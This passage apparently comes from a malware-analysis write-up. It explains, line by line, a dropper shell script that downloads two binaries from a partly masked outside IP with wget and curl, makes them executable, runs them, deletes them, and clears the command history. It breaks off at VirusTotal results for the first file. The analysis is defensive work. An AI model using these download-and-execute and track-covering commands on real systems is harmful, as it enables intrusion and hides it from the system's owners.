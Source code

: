 - "```#!/bin/sh```" is a shebang command indicating that the script should be executed using the "```/bin/sh```" shell.  

&nbsp;

- "```PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin;```" modifies the ```PATH``` environment variable to include several directories to ensure the subsequent commands are executed successfully.  

&nbsp;

- "```wget http://43.xxx.xxx.xxx:888/112```", "```curl -O http://43.xxx.xxx.xxx:888/112;```" do the same thing: download a file from the internet. Using both ```wget``` and ```curl``` is redundant, but the attacker probably wanted to make sure that the file is downloaded successfully in case one of the programs is not installed on the box.  

&nbsp;

- "```chmod +x 112```" makes the downloaded file executable.

&nbsp;

- "```./112```" executes the downloaded file.

&nbsp;

- "```wget http://43.xxx.xxx.xxx:888/123```", "```curl -O http://43.xxx.xxx.xxx:888/123;```" Seem to do the same thing as previously, but the downloaded file is slightly different (Note the different file name).

&nbsp;

- "```chmod +x 123```", "```./123; rm```" Same as before, but for the new file.

&nbsp;

- "```rm -rf 112.sh; rm -rf 112; rm -rf 123;```" removes the downloaded files from the system after they're executed.  

&nbsp;

- "```history -c;```" clears the history of the commands executed on the system. This is done to hide the commands executed by the attacker.

&nbsp;

Based on the commands used, this script seems to download two files ("112" and "123") from a remote server, make them executable, and run them. After execution it removes the files and clears the command history in order to cover its tracks.

&nbsp;

I've managed to recover both of these files and intend on doing a more in-depth analysis of them in the future. For now, I've uploaded them to VirusTotal to see if they are known malware. The results are shown below:

&nbsp;

**112**:

&nbsp;
